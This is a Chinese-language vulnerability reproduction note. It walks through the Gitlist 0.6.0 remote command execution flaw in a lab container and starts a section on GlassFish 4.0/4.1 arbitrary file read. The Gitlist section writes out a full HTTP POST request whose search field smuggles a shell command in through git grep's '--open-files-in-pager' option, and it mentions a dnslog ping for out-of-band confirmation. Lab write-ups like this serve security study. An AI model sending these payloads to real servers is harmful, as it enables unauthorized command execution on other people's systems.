 

### Gitlist 0.6.0 远程命令执行漏洞

##### 漏洞简介及影响范围

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令

![image-20200909151124682](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909151124682.png)

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令

##### 利用过程

环境启动后，访问`http://your-ip:8080`将看到一个名为example的仓库。

![image-20200909143837219](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909143837219.png)



发送数据包

```
POST /example/tree/a/search HTTP/1.1 Host: your-ip:8080 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Content-Length: 56 query=--open-files-in-pager=touch /tmp/
```

![image-20200909144202040](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909144202040.png)

进入容器查看![image-20200909144258304](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909144258304.png)

使用ping dnslog测试

![image-20200909144736775](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909144736775.png)

![image-20200909144746776](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909144746776.png)

https://www.cnblogs.com/NPFS/p/13279815.html





### GlassFish 任意文件读取漏洞

##### 漏洞简介及影响范围

GlassFish 是一款用于构建 Java EE的应用服务组件。2015年10月，被爆出通用任意文件读取漏洞。利用这个漏洞，攻击者可读取服务器上任意文件。（4.0/4.1）

##### 利用过程

4848端口glassfish管理页面

![image-20200909152454192](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200909152454192.png)
